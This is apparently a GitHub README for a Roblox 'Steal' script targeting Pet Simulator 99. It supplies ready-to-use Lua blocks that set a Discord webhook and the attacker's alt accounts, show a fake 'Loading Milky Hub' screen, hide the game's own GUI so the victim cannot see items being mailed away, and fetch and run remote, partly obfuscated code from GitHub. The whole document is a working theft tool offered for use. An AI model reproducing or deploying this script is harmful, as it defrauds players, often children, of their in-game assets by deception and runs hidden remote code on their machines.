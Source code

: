 # Steal
The stealing script

The script should look like this:

```lua
Webhook = "" --your discord webhook

Usernames = {"AlternativeAccount1",
             "AlternativeAccount2" ,
             "ExampleAccountName",
             "AnotherExampleAccountName"} --put the name of all your accounts and alts to send pets to (from important to less important).

MailMessage = "Things got send" -- try to keep very short to avoid it not working
LoadingScreenText = "Loading Milky Hub"
min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default. 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/StealScript"))()
```


.

.

.

.

.

.

.


You can also make a Custom Loading Screen if you want to make your own loadingscreen (only do that if you have coding experience) or no loadingscreen at all (not recomanded) by using the code bellow!

```lua
Webhook = "" --your discord webhook
Usernames = {} --put the name of all your accounts and alts to send pets to (from important to less important)

MailMessage = "" -- try to keep very short to avoid it not working

LoadingScreenText = ""

min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default

-- LOADING SCREEN -----------------------------------
local LoadingScreenFunction = require(game:GetService("ReplicatedStorage").Library.Client.GUIFX.Transition)
game.Players.LocalPlayer.PlayerGui.Transition.DisplayOrder = 6000000000000 -- make any gui that may show you sending gems not show

task.spawn(function() 
    LoadingScreenFunction("anything") -- spawns the default pet simulator 99 loading screen
end)
-- change the text of loading screen
game:GetService("Players").LocalPlayer.PlayerGui.Transition.Hint.HintLabel.Text = LoadingScreenText

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/Obfuscated%20Custom%20Loading%20Screen"))()
```
